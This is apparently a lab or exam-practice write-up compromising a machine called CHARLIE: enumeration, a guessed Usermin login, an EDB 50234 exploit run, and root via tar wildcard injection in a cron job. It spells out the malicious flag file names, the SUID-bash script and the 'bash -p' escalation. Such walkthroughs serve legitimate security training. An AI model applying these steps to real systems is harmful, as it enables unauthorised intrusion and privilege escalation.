# CHARLIE

Writeup for standalone machine hosted at `192.168.xxx.157`.

## Enumeration

Output from Nmap scan [run earlier](./#nmap):


```
Nmap scan report for charlie.oscp.exam (192.168.202.157)
Host is up (0.052s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 114      120          4096 Nov 02  2022 backup
22/tcp    open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0e:ad:d7:de:60:2b:49:ef:42:3b:1e:76:9c:77:33:85 (ECDSA)
|_  256 99:b5:48:fb:77:df:18:b0:1d:ad:e0:92:f3:e1:26:0d (ED25519)
80/tcp    open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
20000/tcp open  http    MiniServ 1.820 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=utf-8).
|_http-server-header: MiniServ/1.820
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=9/8%OT=21%CT=1%CU=38008%PV=Y%DS=4%DC=T%G=Y%TM=66DE0
OS:786%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=108%TI=Z%II=I%TS=A)OPS(O1
OS:=M551ST11NW7%O2=M551ST11NW7%O3=M551NNT11NW7%O4=M551ST11NW7%O5=M551ST11NW
OS:7%O6=M551ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=
OS:Y%DF=Y%T=40%W=FAF0%O=M551NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%R
OS:D=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=
OS:97F5%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


### FTP

Anonymous access is permitted via FTP. I access with `lftp`. I find a directory called `backup`. I was hopeful it would contain something helpful. It contained a few PDFs:

```bash
lftp anonymous:''@charlie.oscp.exam
```

<figure><figcaption><p>Files available on FTP</p></figcaption></figure>

I grab all of them. As I am reading through them there is nothing of value inside the PDFs. They appear to just be template documents for presentations and such.

I do scrape the metadata of all of the PDFs and find some potential usernames:

```bash
exiftool -a -u -g1 .0
```

<figure><figcaption><p>Partial output from exiftool</p></figcaption></figure>

In all there were 3 authors:

1. Mark
2. Robert
3. Cassie

I file this info away for later but move on for now.

### Port 80

Port 80 has a default Apache install. I run feroxbuster to see if there is anything else but nothing pops up.


```bash
feroxbuster -L 20 -k -C 404 -C 400 -r -n -E -g -B -w directory-list-2.3-medium.txt -u http://charlie.oscp.exam  -o p80_dir-med.feroxbuster
```


### Port 20000

I attempt to to head to port 20000 in my browser but an error occurs that indicates it requires a specific hostname configuration:

<figure><figcaption><p>Error with suggested hostname</p></figcaption></figure>

I add a rule to my `/etc/hosts` file with "`oscp`" pointing at this machine and this time the page loads a login portal:

<figure><figcaption><p>Login portal with modified hosts file</p></figcaption></figure>

I try a couple of combinations but quickly get banned for failed login attempts (5):

<figure><figcaption><p>Oops</p></figcaption></figure>

I guess brute forcing is out.

#### Credential Discovery

I revert the machine and think about this a bit. Eventually I try the authors from above here. I attempt to login with both username and password set to the same value. My first set was the usernames as they appear in the metadata (e.g. `Mark:Mark`). All of these failed but I retry with lowercase (e.g. mark:mark) and this time I find `cassie:cassie` logs me in.

I start looking around for exploits and find EDB 50234 which is an authenticated RCE.

## Foothold

### EDB 50234

[EDB 50234](https://www.exploit-db.com/exploits/50234) is an authenticated RCE in Usermin 1.820. Now that I have credentials I can hopefully exploit it. The command to run the exploit is:

```bash
python3 50234.py -u oscp -l cassie -p cassie
```

The first few times it errors due to an array index out of bounds error. I mess with some different indices and get it working:

<figure><figcaption><p>Launching shell with exploit</p></figcaption></figure>

User access achieved as `cassie`.

## Privilege Escalation

I start by running PEAS in the background:

```bash
linpeas.sh -a > cassie.peas &
```

While this is running I start poking around on my own.

### Manual Enumeration

I check all the low hanging fruit (`sudo`, SUID, capabilities) but find nothing.

#### Writable Directories

I check the writable directories since often this will contain something that clicks later:

```bash
find / -writable -type d 2>/dev/null
```

<figure><figcaption><p>Interesting writable folder</p></figcaption></figure>

Nothing stands out except for `/opt/admin`. This is not a standard folder as far as I am aware and the "`admin`" title makes it sound helpful. By itself this means nothing so I move on.

#### CRON Jobs

When I am checking the CRON jobs I find a couple odd ones that seem to run regularly but I am not sure what they are:

<figure><figcaption><p>Found CRON jobs</p></figcaption></figure>

### pspy

By this point PEAS has finished and I can finally fire up `pspy`. I start the tool and after a bit of observation see a job happening every 2 minutes:

```bash
pspy -p
```

<figure><figcaption><p>Job running every 2 minutes in pspy</p></figcaption></figure>

As I understand the command it is extracting files from a `/tmp/backup.tar.gz` archive.

This seems like the most promising vector for right now. As I start researching it, it becomes even more promising.

### Wildcard Injection with `tar`

There is a lot of information about privilege escalation through `tar` wildcards. This [Medium article](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa) is pretty helpful. Basically it comes down to how the `tar` command interprets a wild card. This example is from the linked article, but when `tar` comes across a wildcard (`*`) such as in:

```bash
cd /home/kali/Desktop/TarWildCardPrivEsc/
tar -zcf /home/kali/Desktop/TarWildCardPrivEsc/backup.tgz *
```

It replaces the wildcard with all of the filenames in the folder. Imagine it running the `ls` command and then filling in the output to the command like this:


```bash
tar -zcf /home/.../TarWildCardPrivEsc/backup.tgz image.png randomfile.txt ... 31337h4ck3r8.zip
```


This is fine usually, but if a file has a name that matches an actual `tar` command flag it becomes problematic. This is explained in more depth in the linked post but basically the combination of `tar`'s `--checkpoint` and `--checkpoint-action` flags can be used to execute a script during the `tar` workflow. Creating empty files with names that mimic the usage of these flags will allow me to leverage this functionality.

One issue is all research I can find on the subject shows it with `tar` compression (`-c`) but the CRON job is extracting (`-x`).

I spend some time messing around with this before it accidentally becomes clear how this works. When `tar` is used with `-x` and a wildcard `*`, it tries to extract files based on the names of files in the current directory. This is better explained visually:

<figure><figcaption><p>tar wildcard extraction</p></figcaption></figure>

Because I ran the extract command from `/test` in this example, `tar` tried to extract a file called `example.txt` which is the file found in test. This makes it all click. I need to find the directory where the CRON command is run from and create maliciously named files there.

#### System Logs

Eventually I find this directory in the system logs. I decide to search the `/tmp/backup.tar.gz` (from `pspy` output) filename in the system logs hoping it would point me to entries around this CRON job and it worked:

```
// Some code
```

<figure><figcaption><p>CRON command found in syslog</p></figcaption></figure>

It is the `/opt/admin` directory. Of course it is.

#### Exploit

At this point exploitation can just follow the techniques found for compression. I head to `/opt/admin` and create a file called "`--checkpoint=1`" and another called "`--checkpoint-action=exec=sh pe.sh`." These flags will cause `tar` to execute the `pe.sh` file during decompression. I create this file at `/opt/admin/pe.sh`. Inside I put a command to add SUID to `bash`:


```bash
chmod 4755 /bin/bash
```


The commands to configure all this are:

```bash
cd /opt/admin
echo 'chmod 4755 /bin/bash' > pe.sh
echo '' > '--checkpoint=1'
echo '' > '--checkpoint-action=exec=sh pe.sh'
```

<figure><figcaption><p>Setting up the injection</p></figcaption></figure>

Once this is all set up, I just wait 2 minutes for the CRON job to run. Once this happens I can find `bash` among the SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

<figure><figcaption><p>List of SUID-enabled binaries</p></figcaption></figure>

Honestly I do not understand why it is `/usr/bin/bash` instead of `/bin/bash` but I don't question it too much and just use the [GTFOBins technique](https://gtfobins.github.io/gtfobins/bash/#suid) for SUID `bash` which gives me a `root` shell:

```bash
/usr/bin/bash -p
```

<figure><figcaption><p>Root shell on CHARLIE</p></figcaption></figure>

There is no post-exploit required for standalone exam machines.
